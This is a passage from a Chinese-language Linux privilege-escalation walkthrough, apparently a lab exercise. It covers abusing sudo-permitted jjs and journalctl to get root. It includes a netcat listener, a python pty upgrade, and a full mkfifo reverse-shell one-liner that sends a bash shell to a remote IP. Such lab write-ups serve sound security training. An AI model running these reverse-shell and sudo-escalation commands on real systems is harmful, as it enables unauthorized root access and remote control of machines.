 > `**5<>**`** **：指定文件描述符为 5
> `**.waitFor()**` ：等待执行的进程完成。
> `**| sudo jjs**` ：将前面的命令通过管道传递给sudo jjs命令，以使用超级用户权限运行 **jjs** 工具。

```bash
sudo rlwrap nc -lvnp 4444
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686120535654-87a3e160-4cbb-426e-a77f-b578348624fa.png#averageHue=%23242735&clientId=u2c2d2fa2-97a5-4&from=paste&height=139&id=u94673496&originHeight=174&originWidth=1069&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=174417&status=done&style=none&taskId=uaa316581-e026-4c8f-8e3a-86bb91414b4&title=&width=855.2)
连接成功！！！，获得 **root **权限，但 **shell** 的交互性有待提升。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686120636782-89d301b8-9870-4d63-884e-1f6d9ee8f7e6.png#averageHue=%231f222f&clientId=u2c2d2fa2-97a5-4&from=paste&height=218&id=u74d1e7ba&originHeight=272&originWidth=508&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=99972&status=done&style=none&taskId=u95ac7a63-aafa-4a27-8f58-5721185c387&title=&width=406.4)
发现，靶机即使装了python ，但也没法通过以下语句提权
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686120793881-4568eec6-9c63-47e7-97e2-6c7dbe4fc5b6.png#averageHue=%231f212e&clientId=u2c2d2fa2-97a5-4&from=paste&height=179&id=u4ad5053f&originHeight=224&originWidth=829&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=120800&status=done&style=none&taskId=u9932c507-ba8d-4553-8ec6-37502fa6455&title=&width=663.2)
其实新建一个反弹shell就可以。
```bash
rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.65.130 6666 > /tmp/f
```
报了这样一个错，按道理，在正常的 shell 下执行该命令不会报错
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686121187388-54d0cb82-d7e7-4ab0-a1fa-d454efe4942c.png#averageHue=%23232635&clientId=u2c2d2fa2-97a5-4&from=paste&height=144&id=ucceeffd8&originHeight=180&originWidth=1263&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=180750&status=done&style=none&taskId=uc1e0b8a9-e6f2-4b7c-a485-12948fce7eb&title=&width=1010.4)
居然没有显示当前的 $SHELL, 解决办法就是执行 `/bin/bash` 进入 bash 环境
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686121383514-9995f97a-329b-46ec-a20f-f7476008a5cf.png#averageHue=%2320232f&clientId=u2c2d2fa2-97a5-4&from=paste&height=62&id=ucbb15fc7&originHeight=78&originWidth=232&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14874&status=done&style=none&taskId=uacd1d376-df6e-4d0c-a8f8-84d41f5a0eb&title=&width=185.6)
显示在 bash 环境下 ( 此时执行python 的 spawn 就可以提升用户交互性 )
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686121516803-0b697597-e410-48aa-8fb1-f02722c73b57.png#averageHue=%2320222e&clientId=u2c2d2fa2-97a5-4&from=paste&height=82&id=u84f80c02&originHeight=103&originWidth=231&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=18873&status=done&style=none&taskId=u7f24f944-7f5a-47ce-b50d-4e630765e86&title=&width=184.8)
再次执行 反弹 shell，发现成功执行，SHELL 的交互性更好了。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686121582342-5462b613-fad1-45fd-a487-ff88179ea208.png#averageHue=%23242735&clientId=u2c2d2fa2-97a5-4&from=paste&height=202&id=ua0cdaa09&originHeight=253&originWidth=923&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=193859&status=done&style=none&taskId=u17d9895f-b6f6-4d87-91f6-29b441c2a69&title=&width=738.4)
## 情景三十九 - journalctl
查询 systemd 日志。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686122810988-f3db66e2-bc0c-4486-adc1-3f75f9802c03.png#averageHue=%232a2f3d&clientId=u11b39549-1d7e-4&from=paste&height=67&id=u51179f37&originHeight=84&originWidth=544&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=53675&status=done&style=none&taskId=ua37d9e04-6af9-479b-9f0b-7f193b4c880&title=&width=435.2)
```bash
sudo journalctl

!/bin/bash # ! 提示执行系统命令
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686123412076-b9bff651-025d-4adf-8ccf-0fa575829ead.png#averageHue=%23222430&clientId=u11b39549-1d7e-4&from=paste&height=113&id=u4c4dfa53&originHeight=141&originWidth=556&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=63435&status=done&style=none&taskId=ub995ca48-c7ba-467f-946d-cbfbe8e752e&title=&width=444.8)
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686123437999-7a4c29d1-beb0-4c2f-966a-3900e5726b3d.png#averageHue=%231e202c&clientId=u11b39549-1d7e-4&from=paste&height=149&id=ud740e403&originHeight=186&originWidth=543&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=70020&status=done&style=none&taskId=ub3464383-0a87-45a7-b848-f30698713d3&title=&width=434.4)
很多新的Linux发行版会禁用`**journalctl**`中的`**!**` 功能，此情形下，这种提权方式就行不 
通了。其提权原理与 `less` 类似
